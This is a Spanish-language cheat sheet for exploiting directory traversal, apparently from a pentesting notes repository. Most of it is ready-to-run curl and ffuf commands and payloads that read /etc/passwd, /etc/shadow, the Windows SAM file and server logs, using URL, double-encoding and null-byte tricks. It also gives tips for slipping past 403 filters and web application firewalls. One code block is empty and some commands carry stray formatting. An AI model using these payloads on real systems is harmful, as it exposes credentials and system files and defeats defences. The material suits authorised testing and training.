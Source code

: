 # CheatSheet: Directory Traversal

## Objetivo
Explorar y explotar vulnerabilidades de Directory Traversal para acceder 
a archivos y directorios sensibles fuera del directorio raíz permitido.

## Herramientas
1. Burp Suite
2. curl
3. Dirbuster
4. FFuF

## Procedimiento y comandos
1. Paso 1: Identificar puntos de entrada: Examinar parámetros vulnerables en URLs o formularios:

```bash
curl -X GET "http://{HOST}/vulnerable?file=../../../etc/passwd"
```

2. Paso 2: Probar codificaciones comunes:

* Codificación de URL (por ejemplo, %2e%2e%2f para ../):
```bash	
curl -X GET "http://{HOST}/vulnerable?file=%2e%2e%2f%2e%2e%2f%2e%2e%2fetc/passwd"
```
* Doble codificación:
```bash	
curl -X GET "http://{HOST}/vulnerable?file=%252e%252e%252fetc%252fpasswd"
```
* Null byte bypass

```bash

```

* Posibles payloads:

```bash
../../../etc/passwd
....//....//....//....//etc/passwd
../../../etc/passwd%00.<file_extension>// .jpg .pdf .txt etc
/var/www/html/images/../../../etc/passwd
```

3. Comprobar diferentes sistemas operativos:
	
* Windows: 
```bash
curl -X GET "http://{HOST}/vulnerable?file=..\\..\\..\\Windows\\System32\\config\\SAM"**
```
* Linux: 
```bash
curl -X GET "http://{HOST}/vulnerable?file=../../../../../etc/shadow"
```
4. Automatización: Usar herramientas como Burp Suite con secuencias de ataque en Intruder o fuzzers:
```bash
 ffuf -u http://{HOST}/vulnerable?file=FUZZ -w payloads.txt 
```

```bash
ffuf -w <(sed 's|{FILE}|/etc/passwd|g' payload.txt) -u http://target/FUZZ
```
## Troubleshooting
1. Errores HTTP 403 (Forbidden):

	- Probar diferentes codificaciones para bypass de restricciones, como doble o triple codificación.

	- Asegurarse de que los encabezados HTTP enviados (User-Agent, Referer, etc.) no sean bloqueados por reglas de seguridad del servidor.

	- Verificar si el servidor aplica filtros basados en caracteres o patrones específicos.

2. Archivos inaccesibles por permisos:

	- Intentar acceder a rutas públicas como logs o configuraciones de aplicación:
	```bash
	curl -X GET "http://{HOST}/vulnerable?file=../../../../../var/log/apache2/access.log"**
	```
	- Buscar vulnerabilidades adicionales para escalar privilegios y leer archivos restringidos.

3. Detección de WAF (Web Application Firewall):

	- Usar herramientas como **WAFW00F** para identificar y analizar posibles restricciones.

	- **wafw00f http://{HOST}**

	- Cambiar la estructura de la solicitud o el User-Agent para evitar que sea bloqueada.

4. Sin respuestas úteiles en el contenido devuelto:

	- Comprobar si el servidor devuelve errores genéricos o vacíos. En tal caso, usar **Burp Suite** o herramientas similares para interceptar y analizar más a fondo las respuestas.

	- Analizar si las solicitudes deben incluir **tokens o cookies** específicas para ser procesadas correctamente.

